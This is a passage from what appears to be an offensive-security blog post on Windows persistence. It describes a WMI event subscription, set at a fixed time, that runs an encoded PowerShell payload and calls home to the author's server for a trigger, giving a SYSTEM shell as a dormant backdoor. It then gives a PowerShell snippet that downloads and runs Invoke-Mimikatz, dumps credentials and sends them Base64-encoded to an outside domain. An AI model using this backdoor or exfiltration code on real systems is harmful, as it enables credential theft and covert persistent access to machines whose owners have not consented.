 The command is our powershell script Base64 encoded and passed as a parameter, the -EncodedCommand allows us to do so. The mof file uses the following query:

```SELECT * FROM __InstanceModificationEvent WHERE TargetInstance ISA "Win32_LocalTime" AND TargetInstance.Hour = 14 AND TargetInstance.Minute = 48 AND TargetInstance.Second = 0;
```
Now the moment the system time hits 14:48:00:

Our Powershell script is executed
Client fires the query
Our server checks if the host name file exists in our “zombies” folder
Our server sends back the trigger IP
Powershell scripts evaluates the IP and starts our powershell payload

<img src="/images/wmi06.png" width="600">

w00t a nice SYSTEM shell. But if we wanted to we could just let that backdoor query every day right up until we actually need it.

## MimiKatz
Another interesting approach would be to ex filtrate credentials and not do anything else. This will allow you to keep access without actually having an active connection from your client to your server. I’ve thought about two ways of ex-filtrating the data: HTTPS or DNS. HTTPS is the easiest:

```powershell

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1');
$var = Invoke-Mimikatz -DumpCreds;
$varbytes = [System.Text.Encoding]::UTF8.GetBytes($var);
$var64 = [System.Convert]::ToBase64String($varbytes);
(New-Object Net.WebClient).DownloadString('https://domain.nl/scriptthathandleshttps/' +$var64);

```
